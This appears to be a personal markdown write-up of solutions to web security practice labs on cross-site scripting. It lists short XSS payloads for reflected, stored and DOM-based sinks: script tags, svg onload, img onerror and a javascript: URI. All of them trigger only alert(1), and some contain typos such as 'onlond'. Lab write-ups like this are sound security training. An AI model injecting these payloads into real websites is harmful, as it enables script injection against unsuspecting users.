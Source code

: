 # Labs
### Reflected XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in search box.

<br>

### Stored XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in comment section.

<br>

### DOM XSS in document.write sink using source location.search
<img width="500" src="https://user-images.githubusercontent.com/68285613/146972401-767cfebe-24de-403c-b447-e028a8b35f77.png">

``` "><svg onlond=alert(1)>``` in search box.

<br>

### DOM XSS in document.write sink using source location.search inside a select element

<img width="500" src="https://user-images.githubusercontent.com/68285613/146982039-d5264792-8f54-4e75-bd1e-4d18056a0ad6.png">

Once determined it's able to use url to write into script, 

use ```storeId="></select><img src=1 onerror=alert(1)>```.

<img width="500" src="https://user-images.githubusercontent.com/68285613/146986519-5c632667-cc06-49fb-90ac-ee63a4db6596.png">

<br>

### DOM XSS in innerHTML sink using source location.search
```</div><svg onload=alert(1)>``` in search box.

<br>

### DOM XSS in jQuery anchor href attribute sink using location.search source
Using herf alert.
```returnPath=javascript:alert('1')``` in link.

